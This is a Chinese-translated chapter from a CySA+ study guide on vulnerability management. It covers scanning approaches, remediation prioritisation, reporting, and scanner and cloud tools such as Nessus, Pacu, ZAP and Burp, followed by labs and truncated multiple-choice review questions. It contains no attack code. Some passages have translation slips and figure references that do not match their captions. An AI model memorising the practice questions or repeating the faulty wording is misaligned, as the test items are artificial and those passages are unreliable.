

图 6.7 配置身份验证扫描

除了凭据扫描外，某些扫描器还使用基于代理（agent-based）的扫描方法来补充传统的基于服务器的无代理漏洞扫描方法。在这种方法中，管理员在每个目标服务器上安装较小的软件代理。这些代理对服务器配置进行扫描，提供“从内而外”的漏洞扫描，然后将信息报告回漏洞管理平台进行分析和报告。

### 扫描视角

全面的漏洞管理程序提供了从各种扫描视角进行扫描的能力。每个扫描视角从网络上的不同位置进行扫描，提供有关漏洞的不同视图。例如，外部扫描从互联网运行，让管理员看到位于组织外部的攻击者可能看到的潜在漏洞视图。内部扫描可能从通用公司网络上的扫描器运行，提供恶意内部人员可能遇到的视点视图。最后，位于数据中心内部的扫描器和位于服务器上的代理，通过显示可能被网络上其他安全控制措施拦截的漏洞，提供了服务器真实状态最准确的视图。可能影响扫描结果的控制措施包括以下内容：

* 防火墙设置
* 网络分段
* 入侵检测系统（IDS）
* 入侵防御系统（IPS）

漏洞管理平台具有管理不同扫描器并提供扫描结果汇总视图的能力，汇总来自不同源的数据。图 6.8 显示了管理员如何使用 Qualys 漏洞扫描器为新配置的扫描选择扫描器的示例。



图 6.8 选择扫描设备

### 扫描器维护

与任何技术产品一样，漏洞管理解决方案都需要精心维护。管理员应该定期对他们的漏洞扫描器进行维护，以确保扫描软件和漏洞源保持更新。

#### 扫描器软件

扫描系统本身并不受漏洞的影响。如图 6.9 所示，即使是漏洞扫描器也存在安全问题。定期修补扫描器软件可以保护组织免受特定的扫描器的漏洞，并提供重要的错误修复和功能增强以提高扫描质量。



图 6.9 NIST 漏洞数据库源：美国商务部公共领域

#### 漏洞插件源

安全研究人员每周都会发现新漏洞，只有当漏洞扫描器频繁更新插件时，它们对这些漏洞才有效。管理员应该配置扫描器定期获取新插件，最好是每天。幸运的是，如图 6.10 所示，此过程很容易实现自动化。



图 6.10 Nessus 自动更新

## 开发修复流程

漏洞扫描通常会产生大量的安全问题，需要安全专业人员、系统工程师、软件开发人员、网络工程师和其他技术人员的。对环境的初始扫描可能会产生大量需要排序和最终修复的问题。组织应该开发一种修复流程，允许对漏洞进行优先级排序，并在图 6.11 所示的检测、修复和测试循环中跟踪修复情况。



图 6.11 漏洞管理生命周期

鉴于组织现有的工具，这种修复工作流应当尽可能自动化。许多漏洞管理产品包含内置的工作流机制，允许网络安全专家在整个修复过程中跟踪漏洞，并在测试确认修复成功后自动关闭漏洞。尽管这些工具很有帮助，但其他组织往往选择不使用它们，而是倾向于在组织其他用于处理其他技术问题的 IT 服务管理（ITSM）工具中跟踪漏洞。这种方法避免了要求技术人员使用两个不同的问题跟踪系统，并提高了对修复流程的合规性。然而，这同时也需要选择与组织的 ITSM 工具原生集成（或反之）的漏洞管理工具，或者在尚不存在集成的情况下在工具之间构建集成方案。

漏洞管理中的一个重要趋势是转向`ongoing scanning`（持续扫描）和`continuous monitoring`（持续监控）。持续扫描摒弃了按每周或每月定期对系统进行测试的计划扫描方法，而是配置扫描器循环对系统进行扫描，根据扫描资源允许的频率检查漏洞。这种方法可能会消耗大量的带宽和资源，但确实能更早地发现漏洞。持续监控结合了基于代理的漏洞检测数据，并在安全相关的配置更改发生时立即向漏洞管理平台报告，从而能够分析这些更改是否存在潜在的漏洞。

### 报告与通信

向具有修复能力的技术人员以及负责环境安全的经理传达漏洞扫描结果，是漏洞管理的关键组成部分。毕竟，如果能够纠正问题的团队成员从未看到这些结果，那么漏洞扫描就是在浪费时间！

现代漏洞管理工具提供了非常强大的报告能力。这些报告可以根据需要手动生成以回答特定问题，或者管理员可以设置自动化报告，按计划生成并推送到需要查看它们的人员。此外，管理员还可能设置警报机制，在检测到新的严重漏洞时立即通知关键人员。

管理层仪表板提供了环境网络安全状况的最高层级总结。此类报告通常用于向领导者提供环境的快速快。漏洞扫描仪表板的示例见图 6.12。



FIGURE 6.12 漏洞仪表板示例

当网络安全分析师深入研究漏洞管理系统时，他们可以看到汇总性技术报告，显示网络上检测到的特定漏洞，并按漏洞类型、严重程度、主机组和其他因素进行排序。来自 Nessus 的此类报告示例见图 6.13。这些报告有助于识别需要网络安全专业人员关注的广泛性问题。



FIGURE 6.13 按 IP 地址划分的 Nessus 报告示例

系统工程师通常对列出其所管理系统上所有漏洞的详细报告感兴趣。图 6.14 显示了一份 Nessus 报告，列出了由工具扫描的单个系统中存在的所有漏洞。该报告提供了漏洞的完整列表，并按严重程度排序，可以作为系统工程师用于确定某个系统修复工作优先的检查清单。


FIGURE 6.14 按关键性划分的 Nessus 报告示例

最后一层钻取分析提供了修复系统上单个漏洞所需的细致细节。图 6.15 显示了此类报告的示例。该报告识别了检测到的漏洞，解释了该漏洞的意义和原因，并提供了修复指令，以指导管理员纠正底层安全问题。


FIGURE 6.15 详细漏洞报告

### 修复优先级排序

当网络安全分析师处理漏洞扫描报告时，他们必须在修复优先级排序上做出重要决策，以利用有限的资源解决对组织威胁最大的问题。漏洞优先优先级的排序并没有现成的公式。相反，分析师在选择首先关注哪些问题时，必须考虑几个重要的因素。

修复优先级排序决策过程中一些最重要的因素包括：

* **受漏洞影响的系统和信息的关键性**：根据漏洞的性质，关键性衡量应考虑机密性、完整性和可用性要求。例如，如果该漏洞允许拒绝服务攻击，网络安全分析师应该考虑如果系统因攻击而无法使用对组织的影响。如果该漏洞允许从数据库中窃取存储的信息，网络安全分析师应该考虑如果这些信息被盗取对组织的影响。
* **修复漏洞的难度**：如果修复一个漏洞需要投入过量的人力财务资源，则这一事实应被纳入决策过程。网络安全分析师可能会发现，对于解决排名最高的问题所需的相同投入，他们可以按优先级顺序修复五个评级在 2 到 6 之间的问题。这并不意味着他们一定应该仅根据成本和难度来做出该决定，但它是优先级排序过程中的一个考虑因素。
* **漏洞的严重程度**：问题越严重，纠正该问题就越重要。分析师可以参考通用漏洞评分系统（CVSS）为不同的漏洞提供相对严重程度排名。回在本章前面提到的，`CVSS` 是 `SCAP` 的组成部分。
* **漏洞的暴露程度**：网络安全分析师还应该考虑漏洞被潜在利用的暴露程度。例如，如果一个内部服务器存在严重的 SQL 注入漏洞，但该服务器仅从内部网络访问，那么修复该问题的优先级可能低于修复一个暴露在互联网上、因此更容易受到外部攻击的严重程度稍低的问题。

确定漏洞修复的最佳顺序与其说是科学，不如说门艺术。网络安全分析师必须评估他们掌握的所有信息，并对修复顺序做出明智决策，从而为组织提供最大的安全价值。

### 测试与实施修复

在部署任何修复活动之前，你应该在沙箱环境中对计划的修复方案进行彻底测试。这允许你识别修复方案的任何不可预见的副作用，并减少修复活动干扰业务运营或对组织信息资产造成损害的概率。

在通过对受影响系统进行补丁或加固来部署修复后，你应该采取措施验证缓解措施是否有效。这通常涉及重复最初识别出漏洞的漏洞扫描，并确认该问题没有出现在新的扫描结果中。


当你确实执行缓解活动时，务必记住同时也要更新你的配置基准。例如，如果你对系统应用了安全补丁，你还应该修改你的配置基准，以确保未来的系统从一开始就针对相同的漏洞安装了补丁。

## 延迟修复选项

并非总是能够修复每一个漏洞。在无法立即修正问题的情况下，你有两个基本选项可供选择。

首先，你可以实施`补偿控制`（compensating control）。补偿控制是你采取的额外安全措施，用于在不修复底层问题的情况下处理漏洞。例如，如果你有一个 Web 应用程序存在 SQL 注入漏洞，但你无法修复该应用程序本身，你可以使用 Web 应用防火墙（WAF）来阻止 SQL 注入攻击尝试。Web 应用防火墙充当了补偿控制。

其次，你可以认为风险是可接受的，并将继续照常业务，即承认风险并继续进行。

## 克服漏洞扫描的风险

漏洞扫描通常是网络安全专业人员的优先事项，但组织中的其他技术人员可能不会将其视为重要活动。网络安全分析师应该意识到他人对漏洞扫描设置的障碍，以及解决这些疑虑的方法。需要克服的一些常见障碍包括：

* **服务降级**（Service Degradations）：这是技术人员提出的关于漏洞扫描的最常见的障碍。漏洞扫描会消耗网络带宽并占用扫描目标系统的资源。这可能会降低系统功能，并带来中断业务流程的风险。当扫描涉及`legacy systems`（旧系统）或`proprietary systems`（专有系统）时，由于这些系统面对自动化漏洞扫描可能会表现出不可预测的行为，风险随之增加。网络安全专业人员可以通过调整扫描以减少带宽消耗，并与运营计划协调扫描时间来解决这些疑虑。图 6.16 显示了管理员可以在一个工具中调整扫描强度的方法。

* **客户承诺**（Customer Commitments）：它们可能会为漏洞扫描制造障碍。与客户签订的`谅解备录（MOUs）`和`服务水平协议（SLAs）`可能会产生组织必须履行的有关可用性、性能和安全的预期。如果扫描将负面影响组织履行客户承诺的能力，客户可能需要参与到决策过程中。

* **IT 治理与变更管理流程**（IT Governance and Change Management Processes）：这些流程可能会为支持扫描所需的配置更改带来官僚主义障碍。网络安全分析师应该在组织治理流程内工作，以获取支持漏洞管理计划所需的资源和支持。


**图 6.16** 修改扫描性能设置

## 漏洞评估工具

当你完善自己的网络安全工具箱时，你会希望拥有一个网络漏洞扫描器和一个 Web 应用扫描器可用。漏洞扫描器通常用于预防性扫描和测试，也出现在渗透测试人员的工具箱中，帮助他们识别测试人员可以利用的系统。这也意味着它们是攻击者喜爱的工具！

### 基础设施漏洞扫描

在准备 CySA+ 考试时，你应该熟悉网络安全分析师使用的主要的基础设施漏洞扫描工具。以下工具是网络漏洞扫描器的示例：

* Tenable 的`Nessus`是一款广为人知的备受尊敬的网络漏洞扫描产品，是该领域最早的产品之一。

* `Qualys`的扫描器是一种较新开发的商业漏洞扫描器，采用软件即服务（SaaS）模式，可以在本地数据中心和云端运行扫描。

* Rapid7 的`Nexpose`是另一种商业漏洞管理系统，其功能类似于`Nessus`和`Qualys`。

* 开源的`OpenVAS`提供了漏洞扫描器的替代方案。

在这些工具中，CySA+ 考试关注`Nessus`和`OpenVAS`，因此你应该花时间熟悉它们。市场上还有许多漏洞扫描器的示例，每个成熟组织都应该应该工具箱中配备一个。

### 云基础设施扫描

云基础设施评估工具进入云环境，检索信息，并提供有关环境安全性的报告。它们可能会检测到其他扫描无法发现的问题。例如，专注于云的工具可能会进入云提供者的`API`，并发现安全密钥多年未轮换。云提供商为客户提供许多工具，通常免费或费用低，因为确保环境中资源的安全运行符合提供者的利益。例如，图 6.17 显示了使用`Inspector`工具对亚马逊云 (AWS) 环境进行的扫描。

#### Scout Suite

`Scout Suite`是一种多云审计工具，它可以进入用户的云服务提供商账户并使用这些服务的`API`获取信息。它能够审计`AWS`、`Microsoft Azure`、`Google Compute Platform`、`阿里云`和`Oracle Cloud Infrastructure`的账户。


**图 6.17** AWS 扫描结果

#### Pacu

`Pacu`并不是一个扫描工具，而是一个专注于云的利用框架。它专门针对`AWS`账户工作，旨在帮助攻击者确定他们根据对现有`AWS`账户的访问权限可以做什么。正因如此，它是`AWS`渗透测试员喜欢的工具。


**图 6.18** AWS 账户扫描的 Scout Suite 仪表板

使用`Pacu`与使用`Metasploit`非常相似，之处在于`Pacu`提供了一个模块化的插件框架，用于测试和探测各种信息源。图 6.20 部分列出了供`Pacu`使用的`AWS`利用插件。


**图 6.19** 在 Scout Suite 扫描期间报告的 EC2 安全问题

### Prowler

`Prowler`是一个安全配置测试工具，其目的与`Scout Suite`非常相似。`Prowler`确实会对某些参数进行更深层的测试，但它限于扫描`AWS`、`Microsoft Azure`和`Google Compute Platform`环境。图 6.21 显示了`Prowler`对`AWS`账户扫描的部分结果。


**图 6.20** Pacu 中可用利用程序的部分列表

### Web 应用程序扫描

Web 应用程序扫描器是用于检查 Web 应用程序安全性的专用工具。这些工具测试 Web 特定的漏洞，例如`SQL 注入`、跨站脚本 (`XSS`) 和跨站请求伪造 (`CSRF`) 漏洞。它们通过将对 Web 服务器的传统网络扫描与对 Web 应用程序的详细探测相结合工作，这些技术包括发送已恶意输入序列和模糊测试（fuzzing），以尝试破解应用程序。你将在第 8 章“响应漏洞”中学习更多关于模糊测试的内容。

`Nikto`是`CySA+`考试所需知识的两个开源 Web 应用程序扫描工具之一。作为一种开源工具，任何人都可以免费使用。如图 6.22 所示，`Nikto`使用命令行界面，使用起来有些困难。


**图 6.21** 对 AWS 账户进行 Prowler 扫描的部分结果


**图 6.22** Nikto Web 应用程序扫描器

另一个用于 Web 应用程序扫描的开源工具是`Arachni`。该工具如图 6.23 所示，是一个适用于`Windows`、`macOS`和`Linux`操作系统的包好的扫描器。


**图 6.23** Arachni Web 应用程序扫描器

大多数组织都使用 Web 应用程序扫描器，但他们选择使用提供高级功能和用户友好界面的商业产品。虽然市场上有很多专用 Web 应用程序扫描器，但许多公司使用传统网络漏洞扫描器的 Web 应用程序扫描功能，例如`Nessus`、`Qualys`和`Nexpose`。图 6.24 显示了`Nessus`在 Web 扫描角色中的示例。

### 拦截代理

`拦截代理`（Interception proxies）是渗透测试员和其他寻求评估 Web 应用程序安全性人员的价值工具。因此，它们可以归类为利用工具。它们运行在测试者的系统上，并在浏览器发送到 Web 服务器的请求发布到网络之前将其拦截。这允许测试人员手动操作请求以尝试注入攻击。

图 6.25 显示了流行的开源`Zed Attack Proxy` (`ZAP`)。`ZAP`是一个由`Open Web Application Security Project` (`OWASP`) 协调的社区开发项目。`ZAP`用户可以拦截从任何浏览器发送的请求，并在传递给 Web 服务器之前对其进行修改。


**图 6.24** Nessus Web 应用程序扫描器


**图 6.25** Zed Attack Proxy (ZAP)

`Burp Proxy`如图 6.26 所示，是寻求拦截代理的分析者的另一种选择。它是名为`Burp Suite`的 Web 应用安全工具包。虽然完整的`Burp Suite`需要许可，但`Burp Proxy`目前提供免费版。


**图 6.26** Burp Proxy

## 总结

漏洞管理计划允许安全专业人员识别并修复系统、应用程序和设备的安全性漏洞。在高度监管的环境中，组织可能根据法律法规进行漏洞扫描，但许多行业之外的组织作为安全最佳实践实施漏洞管理计划。

构建漏洞管理计划的安全分析师应从识别扫描需求开始。这包括审查可能的扫描目标并选择扫描频率。一旦做出这些决策，分析师就可以定期执行漏洞扫描，最好通过自动化扫描调度系统。

扫描期间的每个漏洞都应进入漏洞修复工作流，该工作流将任务分配给相应的工程师，跟踪修复进度，并通过最终漏洞扫描后续修复工作。

处理初始扫描结果可能是一项巨大的任务。组织应根据受漏洞影响的系统和信息的关键性、修复难度、漏洞严重程度以及漏洞对外部网络的暴露情况来优先考虑修复。当组织清理了初始扫描结果后，可能会转向持续性的扫描方法，以快速发现新漏洞。

## 考试要点

**了解漏洞扫描需求可能来自内部和外部源。** 在某些情况下，组织面临进行漏洞扫描的法律和法规要求`支付行业数据安全标准` (`PCI DSS`) 和`联邦信息安全管理法` (`FISMA`) 是这些外部要求的两个例子。

**了解选择扫描目标标准。** 发现扫描为组织提供了一种自动识别网络上现有主机并建立资产清单的方法。安全专业人员可以根据数据分类、系统暴露情况、提供的服务以及系统作为测试、开发或生产环境的状态来选择扫描目标。

### 描述扫描频率如何根据组织的需求发生变化。

管理员可能会根据组织的风险承受能力、监管要求、许可限制以及业务和技术限制，选择每天、每周或每月运行一次扫描。某些组织可能选择采用持续监控方法进行漏洞检测。

### 解释如何配置扫描设置允许自定义以满足组织的安全需求。

网络安全专业人员可以通过配置敏感性级别（包括包含和排除插件）以及通过从凭据扫描和服务器代理收集的信息来补充基础网络扫描，从而对扫描进行自定义。安全团队还可以从多个扫描视角进行扫描，以提供网络的不同视图。

### 列出负责维护漏洞扫描系统的管理员应该执行的任务。

负责维护漏洞扫描系统的管理员应该执行两项重要的管理任务。首先，他们应该定期更新扫描器软件，以修复安全问题并添加新功能。其次，他们应该频繁更新插件，以对其环境提供最准确、最新的漏洞扫描结果。

### 描述组织应使用的识别、修复和测试漏洞的修复工作流。

修复工作流应尽可能自动化，并与 IT 组织使用的其他工作流技术集成。当技术人员修复漏洞时，他们通过安全测试验证修复的有效性，并在跟踪系统中关闭该漏洞。漏洞管理系统应提供一系列报告和报警工具来补充这些工作。

### 了解网络安全专业人员应优先考虑修复活动以有效利用有限资源。

立即修复所有漏洞是不可能的。安全团队应该根据受影响系统和信息的关键性、修复漏洞的难度、漏洞的严重性以及受影响系统的暴露情况来优先考虑工作。

### 了解网络安全专业人员如何准备克服 IT 团队其他成员对扫描的反对。

对漏洞扫描的常见反对意见包括扫描引起的服务下降对 IT 服务的影响、对 MOU 和 SLA 中客户的承诺，以及对 IT 治理和变更管理流程的使用。

## 实验

### 活动 6.1：安装漏洞扫描器

在实验中，你将在系统上安装 Nessus 漏洞管理包。

此实验需要访问一个用于安装 Nessus 的 Linux 系统（首选 Ubuntu、Debian、Red Hat、SUSE 或 Fedora）。

#### 第 1 部分：获取 Nessus Essentials 激活码

1. 访问 Nessus `www.tenable.com/products/nessus/nessus-essentials` 并填写表单以获取激活码。

2. 保存包含代码的电子邮件，以便在安装和激活过程中使用。

#### 第 2 部分：下载 Nessus 并将其安装到你的系统上

1. 访问 Nessus 下载页面 `www.tenable.com/downloads/nessus` 并下载适用于你系统的 Nessus 版本。

2. 按照 `https://docs.tenable.com/Nessus.htm` 提供的文档安装 Nessus。

3. 通过登录你的 Nessus 服务器验证安装是否成功。

### 活动 6.2：运行漏洞扫描

在实验中，你将对选择的服务器运行漏洞扫描。需要注意的是，你`绝不能`在没有许可的情况下运行漏洞扫描。

你需要同时访问在活动 6.1 中构建的漏洞扫描服务器和用于扫描的目标服务器。如果你目前没有获得许可可以进行扫描的服务器，你可以使用云服务提供商（例如 Amazon Web Services (AWS)、Microsoft Azure 或 Google Compute Platform）构建一个。

对你的服务器进行漏洞扫描并保存生成的报告。如果需要帮助，请查阅 Nessus 文档。你需要此漏洞扫描的报告来完成下一章中的活动。

## 复习习题

1. 哪部联邦法律要求对联邦政府机构运行的信息系统进行漏洞扫描？

   1. HIPAA

   2. GLBA

   3. FISMA

   4. FERPA

2. 下列哪项行业标准描述了建立信息安全管理系统的标准方法？

   1. OWASP

   2. CIS

   3. ISO 27002

   4. ISO 27001

3. 管理员可以使用什么工具帮助在进行漏洞扫描之前识别网络上系统？

   1. 资产清单

   2. Web 应用评估

   3. 路由器

   4. DLP

4. Tonya 正在为一个受 PCI DSS 合规标准的系统配置漏洞扫描。她必须执行扫描的最低频率是多少？

   1. 每天

   2. 每周

   3. 每月

   4. 每季度

5. 下哪个不是漏洞扫描工具示例？

   1. Nikto

   2. Snort

   3. Nessus

   4. OpenVAS

6. Bethany 是某大型零售组织的漏洞管理专家。她在 3 月完成了上次 PCI DSS 合规扫描。4 月，该组织升级了销售点系统，Bethany 正准备进行新扫描。她何时必须完成新扫描？

   1. 立即。

   2. 6 月。

   3. 12 月。

   4. 不需要扫描。

7. Renee 正在配置她的漏洞管理解决方案以对其网络上的服务器进行凭据扫描。她应该向扫描器提供什么类型的帐户？

   1. 域管理员

   2. 本地管理员

   3. Root

   4. 只读

8. Jason 正在编写一份关于软件产品中潜在安全漏洞的报告，并希望使用标准产品名称以确保其他安全分析师理解该报告。Jason 可以向哪个 SCAP 组件寻求帮助？

   1. CVSS

   2. CVE

   3. CPE

   4. OVAL

9. Bill 想要出于 PCI DSS 合规目的对系统运行内部漏洞扫描。谁授权执行此类扫描？

   1. 组织的任何员工

   2. 批准的扫描供应商

   3. PCI DSS 服务提供商

   4. 任何合格的人

10. 哪种类型的组织最可能面临漏洞扫描的要求？

    1. 银行

    2. 医院

    3. 政府机构

    4. 诊所

11. 下列哪个组织专注于提供安全 Web 应用开发的工具和建议？

    1. OWASP

    2. CIS

    3. NIST

    4. Microsoft

12. 哪个术语描述组织对其计算环境风险的容忍度？

    1. 风险格局

    2. 风险承受能力

    3. 风险水平

    4. 风险适应

13. 下列因素对漏洞扫描计划的影响最小的是？

    1. 监管要求

    2. 技术限制

    3. 业务限制

    4. 人员可用性

14. Barry 将组织所有的信用卡处理系统放在了一个用于卡处理的隔离网络上。他实施了适当的隔离控制，通过 VLAN 和防火墙将 PCI DSS 范围限制在这些系统上。当 Barry 为了 PCI DSS 合规目的进行漏洞扫描时，他必须扫描哪些系统？

    1. 客户系统

    2. 隔离网络上的系统

    3. 通用企业网络上的系统

    4. B 和 C 都是

15. Ryan 计划使用危险的插件对业务关键系统进行漏洞扫描。初始扫描的最佳方法是什么？

    1. 在生产系统上运行扫描，以获得尽可能真实的结果。

    2. 在业务工作期间运行扫描。

    3. 在测试环境中运行扫描。

